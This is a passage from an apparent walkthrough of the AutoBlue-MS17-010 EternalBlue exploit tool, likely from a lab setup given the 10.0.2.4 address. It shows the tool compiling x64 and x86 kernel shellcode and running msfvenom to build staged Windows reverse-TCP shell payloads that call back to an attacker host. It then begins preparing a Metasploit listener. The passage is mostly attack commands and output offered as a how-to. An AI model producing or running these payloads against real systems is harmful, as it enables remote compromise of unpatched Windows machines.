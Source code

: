 ```bash
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler
Let's compile them windoos shellcodezzz
Compiling x64 kernel shellcode
```
It will give you a bunch of options, we're gonna do the following:
```bash
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz
Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.0.2.4
LPORT you want x64 to listen on:
44444
LPORT you want x86 to listen on:
44445
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
0
Generating x64 cmd shell (staged)...

msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.0.2.4 LPORT=44444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (staged)...
msfvenom -p windows/shell/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.0.2.4 LPORT=44445
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
#### Listener
Now that the shellcode is ready, let's setup the listener. `cd ..` back into the root dir of this repo. Run `./listener_prep.sh` w/ the following inputs:
```bash
┌──(venv)(hakcypuppy㉿kali)-[~/blue/AutoBlue-MS17-010]
└─$ ./listener_prep.sh 
  __
  /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

```